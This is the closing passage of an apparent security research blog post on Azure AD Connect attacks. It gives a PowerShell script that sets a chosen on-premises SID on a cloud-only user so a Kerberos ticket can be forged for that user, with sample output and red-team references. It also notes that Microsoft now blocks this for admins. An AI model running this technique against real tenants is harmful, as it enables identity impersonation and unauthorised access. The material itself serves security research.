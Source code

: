 > **Note!** Changing SID of cloud-only admin users is now blocked by Microsoft!

Setting SID for cloud-only users:
{{< highlight powershell >}}
# Create a SID object. MUST be unique within the tenant.
$objSID = New-Object System.Security.Principal.SecurityIdentifier("S-1-5-0-0-0-0-1")

# Create a byte array for the binary form of the SID
$b64SID = [System.Byte[]]::CreateInstance([System.Byte],28)

# Export binary SID to the variable
$objSID.GetBinaryForm($b64SID,0)

# Convert the binary SID to Base 64 string
$strB64SID=[convert]::ToBase64String($b64SID)

# Set the SID for the user
Set-AADIntAzureADObject -CloudAnchor "User_d8e43f6f-d97c-4377-a547-ad1f51d5bbc7" -onPremiseSecurityIdentifier $strB64SID
{{< /highlight>}}
```
CloudAnchor            : User_d8e43f6f-d97c-4377-a547-ad1f51d5bbc7
ErrorDetails           : ErrorDetails
ObjectType             : User
ResultCode             : Success
ResultErrorCode        : 0
ResultErrorDescription : ResultErrorDescription
SourceAnchor           : abc
SyncOperation          : Add
```
If successful, you can now create a Kerberos ticket for the user using the SID "S-1-5-0-0-0-0-1".

# References
* Adam Chester: <a href="https://blog.xpnsec.com/azuread-connect-for-redteam/" target="_blank">Azure AD Connect for Red Teamers</a>
* Michael Grafnetter: <a href="https://www.dsinternals.com/en/how-azure-active-directory-connect-syncs-passwords/" target="_blank">How Azure Active Directory Connect Syncs Passwords?</a> 
* Michael Grafnetter: <a href="https://www.dsinternals.com/en/dumping-ntds-dit-files-using-powershell/" target="_blank">Dumping the contents of ntds.dit files using PowerShell</a>
* Microsoft: <a href="https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-azure-ad-connect" target="_blank">What is Azure AD Connect?</a> 
* Microsoft: <a href="https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles" target="_blank">Administrator role permissions in Azure Active Directory</a>
* Microsoft: <a href="https://docs.microsoft.com/en-us/azure/active-directory/hybrid/choose-ad-authn" target="_blank">Choose the right authentication method for your Azure Active Directory hybrid identity solution</a>
* Sean Metcalf: <a href="https://adsecurity.org/?p=2398" target="_blank">How Attackers Dump Active Directory Database Credentials</a>